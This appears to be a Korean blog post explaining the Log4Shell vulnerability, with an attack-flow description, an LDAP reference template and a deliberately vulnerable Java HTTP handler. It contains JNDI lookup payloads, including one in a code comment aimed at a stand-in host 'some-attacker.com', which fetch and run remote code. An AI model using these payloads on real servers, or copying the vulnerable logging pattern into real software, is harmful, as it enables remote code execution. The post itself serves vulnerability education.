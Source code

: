 만약 모든 것이 제대로 동작한다면, **`${jndi:logging/context-name}`**와 같은 코드가 프로그램 어딘가에 있을것이다.

![정상적인 Log4J 프로세스](/images/20220901/Untitled%206.png)

정상적인 Log4J 프로세스

다음은 Log4Shell의 Exploit과정이다.

![공격 Flow](/images/20220901/Untitled%207.png)

공격 Flow

1. 공격자는 Payload가 담긴 HTTP Request를 취약한 서버로 전송한다. 
**`User-Agent: ${jndi:ldap://<host>:<port>/<path>}`**
2. Request를 받은 취약한 서버는 LDAP Query로 공격자의 LDAP Server에 Query를 요청한다.
3. 공격자의 LDAP Server는 RCE 같은 공격 Payload가 담긴 Link의 정보를 전송한다.

```
dn:
javaClassName: <class name>
javaCodeBase: <base URL>
objectClass: javaNamingReference
javaFactory: <file base>
```

- 요기서 `javaCodeBase` 와 `javaFactory`는 공격자의 Java Class(`javaClassName`, RCE를 위한 실행파일)의 위치를 나타내는 정보다.
1. 취약한 서버는 공격자의 LDAP Server로 부터 받은 `javaCodeBase`와 `javaFactory`를 조합하여 어든 URL정보로 Java Class(`javaClassName`)를 요청한다.
2. 공격자의 HTTP Server에서 `javaClassName` 을 찾고 해당 Java Class 파일을 Response로 취약한 서버로 전송된다. 그리고 해당 실행 파일이 취약한 서버에서 실행되면서 공격이 완성된다.

## Example

### Vulnerable Code

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://some-attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```